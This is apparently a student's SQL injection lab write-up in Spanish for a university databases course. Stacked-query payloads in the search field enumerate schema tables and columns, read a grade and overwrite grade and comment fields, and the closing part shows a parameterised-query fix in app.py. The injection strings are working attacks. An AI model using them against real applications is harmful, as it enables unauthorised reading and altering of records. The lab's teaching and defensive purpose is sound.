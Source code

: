 # Laboratorio 6 - Martín Bravo

## Pregunta 1

```sql

-- a
SELECT *
FROM uchile.transparencia
WHERE apellido_p = 'Bravo'
ORDER BY total DESC;

-- b
SELECT nota
FROM nota.cc3201
WHERE nombre = 'Bravo Díaz, Martín Eduardo';


-- c
UPDATE nota.cc3201
SET nota = 7.0
WHERE nombre = 'Bravo Díaz, Martín Eduardo';

-- ERROR:  permission denied for table cc3201

-- d
SELECT table_name, table_schema 
FROM information_schema.tables;

SELECT column_name, data_type 
FROM information_schema.columns 
WHERE table_name='cc3201'
AND table_schema='nota';
```

## Pregunta 2

```sql

-- a
Bravo'; 
SELECT table_name  
FROM information_schema.tables;--

-- b
Bravo'; 
SELECT column_name, data_type 
FROM information_schema.columns 
WHERE table_name='cc3201' 
AND table_schema='nota';--

-- c

Bravo';
SELECT nota
FROM nota.cc3201
WHERE nombre = 'Bravo Díaz, Martín Eduardo';--

-- d

Bravo'; 
UPDATE nota.cc3201 
SET nota = 1.1 
WHERE nombre = 'Bravo Díaz, Martín Eduardo';--

-- e

Bravo'; 
UPDATE nota.cc3201
SET comentario = 'Ponganme el 1.0, cero drama'
WHERE nombre = 'Bravo Díaz, Martín Eduardo';--
```
Evidencia:

![alt text](hacker.jpeg)

f) 

- En el backend, debemos cambiar la linea del archivo `app.py` para que quede de la siguiente forma:

```python
    # Cambiamos esta linea

	# cur.execute("SELECT nombres, apellido_p, apellido_m, mes, anho, total FROM uchile.transparencia WHERE apellido_p='"+input+"' ORDER BY total DESC LIMIT 250")

	# Por esta

    cur.execute("SELECT nombres, apellido_p, apellido_m, mes, anho, total FROM uchile.transparencia WHERE apellido_p=%s ORDER BY total DESC LIMIT 250", [input])
```
- Esto nos asegura que el input del usuario no se ejecutará como código SQL, sino que se ejecutará como un string.